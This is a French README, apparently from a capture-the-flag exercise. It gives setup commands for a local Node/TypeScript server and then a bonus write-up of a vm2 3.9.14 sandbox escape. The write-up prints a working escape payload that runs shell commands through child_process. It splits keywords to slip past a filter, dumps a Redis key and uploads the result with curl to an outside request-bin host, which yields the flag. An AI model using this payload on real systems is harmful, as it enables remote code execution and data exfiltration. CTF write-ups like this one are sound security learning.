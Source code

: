 ### README 

Pour tester l'accès à l'API, il faut dans un premier temps avoir ***node*** et ***npm*** d'installé, pour cela, écrire les commandes suivantes :
- ***npm init -y***
- ***npm install typescript --save-dev***
- ***npm install @types/node --save-dev***

Pour lancer le serveur local, il faut se rendre sur un ***terminal*** et utiliser la commande ***'cd'*** pour se rendre dans le dossier.
Puis, ***dans l'ordre***, écrire les commandes :
- ***npx tsc***
- ***node build/index.js***

Ensuite, se rendre sur un navigateur et entrer l'***url*** suivante :
- ***localhost:3000/ping***


### BONUS :

J'ai, dans un premier temps réupéré le ***POC*** de la vulnérabilité présente sur la version de vm2 qui est utilisé pour ce site. (La ***3.9.14***) :


`'Error.prepareStackTrace = (e, frames) => {
    frames.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch flag'); 
};
(async ()=>{}).constructor('return process')()'`

Afin d'avoir un visuel sur la réponse du serveur, j'ai utilisé ***RequestBin*** et ai essayé de curl le serveur en écrasant la précédente commande dans ***execSync*** :

`execSync('curl https://endztqp872ue.x.pipedream.net');`

La sécurité du site m'empêchant d'utiliser les mots ***process*** et ***child_process***, j'ai du séparer les chaînes de caractère :

exple : `process => pro" + "cess`

Ayant un retour, je me suis rendu compte que je pouvais avoir accès à des ***commandes bash***. J'ai donc utilisé une commande ***redis*** afin de récupérer le ***FLAG dans la table 1 sur le port 6379*** et d'enregistrer le résultat dans un fichier dynamique result :

`redis-cli -h redis -p 6379 -n 1 get FLAG > result`

Ensuite je l'ai envoyé sur mon serveur temporaire ***RequestBin*** :

`curl -T result https://endztqp872ue.x.pipedream.net`

Ce qui me donne au final la commande suivante :

`Error.prepareStackTrace = (e, frames) => {
    frames.constructor.constructor('return proc'+'ess')().mainModule.require('chi'+'ld_pro'+'cess').execSync('redis-cli -h redis -p 6379 -n 1 get FLAG > result && curl -T result https://endztqp872ue.x.pipedream.net'); 
};
(async ()=>{}).constructor('return pr'+'ocess')()`

Et le ***résultat*** :

`STHACK{ch4d-vm2-s4ndb0x-3sc4p3-w1th-3rr0r}`